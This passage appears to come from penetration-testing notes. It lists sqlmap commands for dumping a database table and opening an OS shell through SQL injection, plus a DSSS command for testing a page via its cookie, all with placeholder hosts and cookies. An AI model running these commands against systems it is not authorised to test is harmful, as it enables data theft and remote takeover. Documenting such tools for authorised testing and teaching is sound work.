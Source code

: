 ##### Retrieve the rows in a table

```sh
sqlmap -u "[HOST]" --cookie="[COOKIE]" -D [DATABASE] -T [TABLE] --dump
```

##### Getting a shell

```sh
sqlmap -u "[HOST]" --cookie="[COOKIE]" --os-shell
```

#### Using DSSS

##### SQL Injection in a page using a cookie, retrieve databases

```sh
python3 dsss.py -u "[HOST]" --cookie="[COOKIE]"
```
-u: Specifies the target URL.

--cookie: Specifies the HTTP cookie header value.

